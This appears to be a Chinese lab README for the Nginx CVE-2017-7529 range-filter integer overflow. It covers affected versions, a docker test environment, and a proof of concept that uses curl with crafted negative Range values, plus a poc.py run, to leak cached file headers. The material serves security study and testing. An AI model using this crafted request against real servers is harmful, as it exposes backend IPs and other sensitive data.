

## Nginx整数溢出漏洞 CVE-2017-7529

### 漏洞信息

当使用nginx标准模块时，攻击者可以通过发送包含恶意构造 range 域的 header 请求，来获取响应中的缓存文件头部信息。在某些配置中，缓存文件头可能包含后端服务器的IP地址或其它敏感信息，从而导致信息泄露。

参考：[【漏洞分析】Nginx range 过滤器整形溢出漏洞 (CVE–2017–7529)预警分析](http://bobao.360.cn/learning/detail/4102.html)

### 漏洞影响

该漏洞影响所有 0.5.6 - 1.13.2版本内默认配置模块的Nginx只需要开启缓存攻击者即可发送恶意请求进行远程攻击造成信息泄露。

当Nginx服务器使用代理缓存的情况下攻击者通过利用该漏洞可以拿到服务器的后端真实IP或其他敏感信息。

通过我们的分析判定该漏洞利用难度低可以归属于low-hanging-fruit的漏洞在真实网络攻击中也有一定利用价值。

#### 影响版本

Nginx version 0.5.6 - 1.13.2

#### 修复版本

Nginx version 1.13.3, 1.12.1

### 获取环境:

1. 拉取镜像到本地

 ```
$ docker pull medicean/vulapps:n_nginx_1
 ```

2. 启动环境

 ```
$ docker run -d -p 8000:80 medicean/vulapps:n_nginx_1
 ```
 > `-p 8000:80` 前面的 8000 代表物理机的端口，可随意指定。 


### 使用与利用

#### POC

1. 访问缓存文件拿到 Content-Length，以 /proxy/demo.png 为例：

```
$ curl -I http://127.0.0.1:8000/proxy/demo.png

HTTP/1.1 200 OK
Server: nginx/1.13.1
Date: Wed, 12 Jul 2017 15:57:57 GMT
Content-Type: image/png
Content-Length: 16585
Connection: keep-alive
Last-Modified: Wed, 12 Jul 2017 15:57:57 GMT
ETag: W/"40c9-5543e4fad0d40"
X-Proxy-Cache:: MISS
Accept-Ranges: bytes
```
看到 `Content-Length: 16585`, 找个比这个数大的值，例如 17208, 第二个 range 值为 0x8000000000000000-17208, 也就是 9223372036854758600

2. 请求时设置 range 如下：

```
$ curl -i http://127.0.0.1:8000/proxy/demo.png -r -17208,-9223372036854758600
```

看到结果：



#### PoC 脚本

```
$ python poc.py http://127.0.0.1:8000/proxy/demo.png

Vulnerable: http://127.0.0.1:8000/proxy/demo.png
```

### 参考链接

* [【漏洞分析】Nginx range 过滤器整形溢出漏洞 (CVE–2017–7529)预警分析](http://bobao.360.cn/learning/detail/4102.html)
* [CVE-2017-7529 Nginx整数溢出漏洞分析](http://galaxylab.org/cve-2017-7529-nginx%E6%95%B4%E6%95%B0%E6%BA%A2%E5%87%BA%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/)
